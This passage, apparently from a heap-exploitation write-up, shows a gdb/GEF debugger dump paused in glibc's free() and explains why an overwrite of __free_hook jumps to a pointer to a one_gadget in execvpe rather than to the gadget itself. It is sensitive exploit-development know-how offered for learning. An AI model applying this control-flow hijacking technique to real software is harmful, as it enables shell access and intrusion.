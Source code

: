 ```c
$rcx   : 0x00007f776fd53fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007fff3250f9f8  →  0x00007f776fe38376  →  0x4d8b4800000000b8
$rbp   : 0x00007fff3250fa20  →  0x0000000000000000
$rsi   : 0x00007f776fe38376  →  0x4d8b4800000000b8
$rdi   : 0x0000555555fa05b0  →  0x0a65657266206200
$rip   : 0x00007f776fce08f1  →  <free+161> jmp rax
$r8    : 0x0000555555fa05b0  →  0x0a65657266206200
$r9    : 0x00007f776fc4a548  →  0x0000000000000000
$r10   : 0x00007f776fe2ebe0  →  0x0000555555fa05e0  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x00007f776fe38150  →  0x8949ed31fa1e0ff3
$r13   : 0x00007fff3250fb08  →  0x000000000000001c
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fff3250f9f8│+0x0000: 0x00007f776fe38376  →  0x4d8b4800000000b8    ← $rsp
0x00007fff3250fa00│+0x0008: 0x00007f776fe31b28  →  0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa08│+0x0010: 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
0x00007fff3250fa10│+0x0018: 0x0000555555fa05b0  →  0x0a65657266206200
0x00007fff3250fa18│+0x0020: 0xececd8c03b604200
0x00007fff3250fa20│+0x0028: 0x0000000000000000   ← $rbp
0x00007fff3250fa28│+0x0030: 0x00007f776fc6a0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fff3250fa30│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f776fce08e5 <free+149>       nop    DWORD PTR [rax]
   0x7f776fce08e8 <free+152>       mov    rsi, QWORD PTR [rsp+0x18]
   0x7f776fce08ed <free+157>       add    rsp, 0x18
 → 0x7f776fce08f1 <free+161>       jmp    rax
   0x7f776fce08f3 <free+163>       nop    DWORD PTR [rax+rax*1+0x0]
   0x7f776fce08f8 <free+168>       cmp    QWORD PTR [rip+0x151279], rsi        # 0x7f776fe31b78
   0x7f776fce08ff <free+175>       ja     0x7f776fce090a <free+186>
   0x7f776fce0901 <free+177>       cmp    QWORD PTR [rip+0x151268], rsi        # 0x7f776fe31b70
   0x7f776fce0908 <free+184>       ja     0x7f776fce08cb <free+123>
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f776fce08f1 in free (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f776fce08f1 → free()
[#1] 0x7f776fe38376 → mov eax, 0x0
[#2] 0x7f776fe31b28 → __after_morecore_hook()
[#3] 0x555555fa02a0 → out 0x9c, al
[#4] 0x555555fa05b0 → add BYTE PTR [rdx+0x20], ah
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
`gdb`'s paused here at the jump to `__free_hook`. There's been a slight error in logic, here: instead of jumping to `<execvpe+1142>` (a one_gadget), `__free_hook` is causing the program to jump to a *pointer to* the one_gadget, which is naturally non-executable.
